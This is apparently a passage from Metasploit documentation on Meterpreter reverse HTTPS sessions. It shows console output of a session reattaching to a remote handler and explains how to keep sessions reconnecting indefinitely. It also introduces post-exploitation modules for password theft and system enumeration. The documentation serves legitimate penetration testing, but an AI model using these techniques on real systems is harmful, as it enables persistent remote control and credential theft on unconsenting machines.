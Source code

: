 ```
meterpreter > detach

[*] 172.16.23.185 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(handler) > run

[*] Started HTTPS reverse handler on https://172.16.23.1:4444
[*] Starting the payload handler...
[*] https://172.16.23.1:4444 handling request from 172.16.23.185; (UUID: utvmhcay) Attaching orphaned/stageless session...
"https://172.16.23.1:4444/56uhMwqiB8B0s3WyIzN-3wEo5JA4AcwGUum6UAAWxN2MEy0-Tw8f0GH7EOK-uTte7O6WXt8y9KRTiQX88Fn0CNy5yxFMndf1NPfRXelG6se/"
[*] Meterpreter session 2 opened (172.16.23.1:4444 -> 172.16.23.185:49207) at 2016-07-11 11:38:21 -0500

meterpreter >
```

By default, the Meterpreter session will continue to reach back to you for five minutes. If it
is unable to connect back after that, it will terminate. You can extend this by setting the
```SessionCommunicationTimeout``` option to your choice. Setting this option to 0 ensures that
your session will reattach whenever the target comes back online, as long as the payload handler
is running.


## Using a Post Module

One of the best things about Meterpreter is you have access to a variety of post exploitation
modules, specifically for the multi and Windows categories. Post modules provide you with more capabilities to
collect data from the remote machine automatically. For example, you can steal passwords
from popular applications and enumerate or modify system settings.

To use a post module from the Meterpreter prompt, simply use the ```run``` command:

```
meterpreter > run post/windows/gather/checkvm

[*] Checking if WIN-6NH0Q8CJQVM is a Virtual Machine .....
[*] This is a VMware Virtual Machine
meterpreter >
```

It is also possible to run a post module via multiple Meterpreter sessions. To learn how, load
the specific post module you wish to run, and enter ```info -d``` to see the basic usage in the
documentation.

## Using the Post Exploitation API in IRB

To enter IRB, do the following at the Meterpreter prompt:

```
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
